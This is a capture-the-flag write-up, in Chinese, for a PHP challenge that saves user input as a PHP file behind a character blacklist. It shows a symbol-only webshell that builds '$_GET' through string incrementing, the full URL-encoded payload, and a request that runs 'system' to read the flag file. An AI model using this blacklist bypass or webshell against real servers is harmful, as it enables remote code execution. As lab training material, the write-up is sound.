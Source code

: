 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.我们可以直接看到php主要的逻辑代码：

```php
<?php
ini_set("display_errors", "On");
error_reporting(E_ALL | E_STRICT);
if(!isset($_GET['c'])){
    show_source(__FILE__);
    die();
}
function rand_string( $length ) {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
    $size = strlen( $chars );
    $str = '';
    for( $i = 0; $i < $length; $i++)
   {
       $str .= $chars[ rand( 0, $size - 1 ) ];
   }
    return $str;
}
$data = $_GET['c'];
$black_list = array(' ', '!', '"', '#', '%', '&', '*', ',', '-', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', '<', '>', '?', '@', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '\\', '^', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '|', '~');
foreach ($black_list as $b) {
    if (stripos($data, $b) !== false){
        die("WAF!");
    }
}
$filename=rand_string(0x20).'.php';
$folder='uploads/';
$full_filename = $folder.$filename;
if(file_put_contents($full_filename, '<?php '.$data)){
    echo "<a href='".$full_filename."'>WebShell</a></br>";
    echo "Enjoy your webshell~";
}else{
    echo "Some thing wrong...";
}
?>
```

3.构造webshell：

```php
<?php
$_=[].[];
$__='';
$_=$_[''];
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$__.=$_; // E
$_=++$_;
$_=++$_;
$__=$_.$__; // GE
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$__.=$_; // GET
var_dump(${'_'.$__}[_](${'_'.$__}[__])); // $_GET['_']($_GET['__']);
```

4.完整payload：`http://IP:PORT/challenge8.php?c=%24_%3d%5b%5d.%5b%5d%3b%24__%3d%27%27%3b%24_%3d%24_%5b%27%27%5d%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24__.%3d%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24__%3d%24_.%24__%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24__.%3d%24_%3b%24%7b%27_%27.%24__%7d%5b_%5d(%24%7b%27_%27.%24__%7d%5b__%5d)%3b`

![](files_for_writeup/2.png)

成功上传webshell，利用webshell获取flag：

`http://IP:PORT/uploads/cg34XL1MVWE0HRqFw8laC40agx8NV2rX.php?_=system&__=cat%20../flag.php`
右键查看源代码，获取flag：

![](files_for_writeup/3.png)
